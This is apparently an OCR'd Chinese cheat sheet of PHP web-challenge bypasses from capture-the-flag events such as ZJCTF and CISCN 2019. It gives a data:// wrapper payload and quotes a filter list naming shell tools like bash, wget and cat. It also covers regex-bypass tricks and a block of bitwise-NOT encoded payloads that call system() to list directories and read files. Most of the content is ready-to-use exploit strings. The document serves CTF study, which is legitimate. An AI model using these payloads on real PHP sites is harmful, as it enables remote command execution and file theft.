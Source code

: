         isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))
            需要让$text输入 ”welcome to the zjctf“
            ?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=

        过滤 if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
            空格用%20, 使用 dir,  dir%20/ , -- 2019 安洵杯Web easy_web

        只能使用指定math常用数学函数 [CISCN 2019 初赛]Love Math

        SQL过滤select等尝试堆叠注入

### 正则绕过 pregmatch / bypass

preg_match()返回 pattern 的匹配次数。 它的值将是 0 次（不匹配）或 1 次，因为 preg_match()在第一次匹配后 将会停止搜索。
preg_match_all()不同于此，它会一直搜索 subject 直到到达结尾。 如果发生错误 preg_match()返回 FALSE。

https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php
https://blog.csdn.net/volcanodingning/article/details/3274961

D (PCRE_DOLLAR_ENDONLY)
设置后$仅匹配目标字符串里的尾部. 没有这个修饰符, $ 字符也匹配新行的尾部

### 利用 PHP 的字符串解析特性 Bypass

https://www.freebuf.com/articles/web/213359.html

#### 取反码 preg_match("/[A-Za-z0-9]+/",\$code)

```php
$str = ~"phpinfo";
echo urlencode($str);
phpinfo() == (~%8F%97%8F%96%91%99%90)()
paylaod: ?code=(~%8F%97%8F%96%91%99%90)();


${(~%8F%97%8F%96%91%99%90)()}
${(~%8C%86%8C%8B%9A%92)(~%93%8C)}
${(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0)}
${(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D1%D1%D0)}
${(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D1%D1%D0%D1%D1%D0)}
${(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D1%D0%DF%D2%93%9E)}
${(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D1%D1%D0%DF%D2%93%9E)}
${(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D1%D1%D0%99%99%99%99%99%99%99%99%99%CE%CE%CE%CE%CE%CE%CE%CE%CE%CB%CB%CB%CB%CB%CB%98%98%98%98%98%98)}
${(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D1%D1%D0%D1%99%99%99%99%99%99%99%99%99%CE%CE%CE%CE%CE%CE%CE%CE%CE%CB%CB%CB%CB%CB%CB%98%98%98%98%98%98)}
${(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D1%D0)}
```

#### `substr_count($query, '_') !== 0, 使用%20代替_`

#### `preg_match('/^23333$/') 用%0a即换行绕过$`
